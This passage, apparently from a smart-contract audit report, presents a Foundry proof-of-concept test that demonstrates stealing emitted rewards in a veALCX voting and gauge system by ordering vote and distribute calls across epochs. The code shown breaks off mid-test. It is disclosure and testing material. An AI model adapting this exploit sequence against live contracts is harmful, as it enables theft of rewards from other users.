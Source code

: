 To show difference between two scenarios mentioned below, we have written two test cases, namely: `testStealingEmittedRewardsBugDistributeBeforeVote()` and `testStealingEmittedRewardsBugVoteBeforeDistribute()`.
- `vote` before `distribute` (Incorrect Order)
- `distribute` before `vote` (Correct Order)

**Steps to Run using Foundry:**
- Paste following foundry code in `src/test/Voting.t.sol`
- Both mentioned test cases cab be run using `FOUNDRY_PROFILE=default forge test --fork-url $FORK_URL --fork-block-number 17133822 --match-contract VotingTest --match-test testStealingEmittedRewardsBug -vv`

```solidity
function testStealingEmittedRewardsBugDistributeBeforeVote() public {
    uint256 period = minter.activePeriod();

    // Create a veALCX token and vote to trigger voter rewards
    uint256 tokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
    address sushiBribeAddress = voter.bribes(address(sushiGauge));
    createThirdPartyBribe(sushiBribeAddress, bal, TOKEN_100K);

    address[] memory pools = new address[](1);
    pools[0] = sushiPoolAddress;
    uint256[] memory weights = new uint256[](1);
    weights[0] = 5000;

    address[] memory bribes = new address[](1);
    bribes[0] = address(sushiBribeAddress);
    address[][] memory tokens = new address[][](2);
    tokens[0] = new address[](1);
    tokens[0][0] = bal;

    address[] memory gauges = new address[](2);
    gauges[0] = address(sushiGauge);
    gauges[1] = address(balancerGauge);

    console.log("\nBefore 1st vote:");
    console.log("claimable[sushiGauge]:", voter.claimable(address(sushiGauge)));
    console.log("claimable[balancerGauge]:", voter.claimable(address(balancerGauge)));
    
    // Vote to trigger voter rewards for sushiGauge
    hevm.prank(admin);
    voter.vote(tokenId, pools, weights, 0);

    console.log("\nAfter 1st vote:");
    console.log("claimable[sushiGauge]:", voter.claimable(address(sushiGauge)));
    console.log("claimable[balancerGauge]:", voter.claimable(address(balancerGauge)));
    
    // Move forward a epoch relative to period to distribute
    hevm.warp(period + nextEpoch);
    voter.distribute();
    voter.updateFor(gauges);

    console.log("\nAfter 1st distribute and updateFor (+EPOCH):");
    console.log("claimable[sushiGauge]:", voter.claimable(address(sushiGauge)));
    console.log("claimable[balancerGauge]:", voter.claimable(address(balancerGauge)));
    
    // skip epoch to initiate attack
    period = minter.activePeriod();
    hevm.warp(period + nextEpoch);

    voter.distribute();
    voter.updateFor(gauges);

    console.log("\nAfter 2nd distribute and updateFor (+EPOCH):");
```